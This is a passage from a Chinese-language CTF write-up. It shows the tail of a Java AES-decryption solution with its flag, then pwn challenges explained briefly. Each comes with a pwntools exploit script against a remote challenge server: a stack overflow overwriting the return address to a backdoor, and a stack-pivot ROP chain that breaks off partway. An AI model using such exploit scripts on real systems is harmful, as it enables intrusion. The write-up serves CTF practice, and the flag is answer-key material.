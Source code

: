 ```
        return null; 
    `}` 
    public static void main(String[] args) throws IOException `{` 
        String Pass = "V_god_is_so_powerful!!"; 
        String c = "bu46rQ1/nyvDwHAjB/lO33OYVjI/CcxxQ6lckDJsL4YCn/Ir9+AD+F9CCIwtpEnG"; 
        byte[] b_c = Base64.getDecoder().decode(c); 
        byte[] dec = AESEncode.decrypt(b_c,Pass); 
        System.out.print(new String(dec)); 
    `}` 
`}`
```

**flag`{`b80c4dd8b4a445f8041ebca018791e38`}`**

## pwn

### <a class="reference-link" name="backdoor"></a>backdoor

考点：数组越界、栈残留数据

分析：在 func1 中输入的字符串，函数返回后还会留在内存空间，绕过 func2 验证，之后将返回地址修改为后门函数

exp:

```
python
#!/usr/bin/python
from pwn import *
context.log_level='debug'
#p = process('./backdoor_for_jianjian')
p = remote('121.41.13.20','32773')
#gdb.attach(p,'b *0x40086F')
p.recvuntil('(y/n)')
p.send('a'*108+p32(0x8180754))
p.recvuntil('required!')
p.send(p64(0))
p.recvuntil('success!')
p.sendline('a'*0x18+p64(0x4007C3))
p.interactive()
```

### <a class="reference-link" name="suggestion_box"></a>suggestion_box

考点：栈迁移

分析：

1.第一次输入在 bss 中布置好泄露地址和 getshell 的 rop 链

2.第二次输入劫持返回地址后用两个 `leave ret` “ 把栈迁移到 bss 段

exp:

```
python
#!/usr/bin/python 
from pwn import * 
from LibcSearcher import * 
context.log_level='debug' 
#p = process('./suggestion_box') 
p = remote('121.41.13.20',32775) 
elf = ELF('./suggestion_box') 
libc=ELF("./libc-2.23.so") 
#gdb.attach(p,'b *0x400707') 
pop_rdi = 0x400783 
puts=elf.plt['puts'] 
```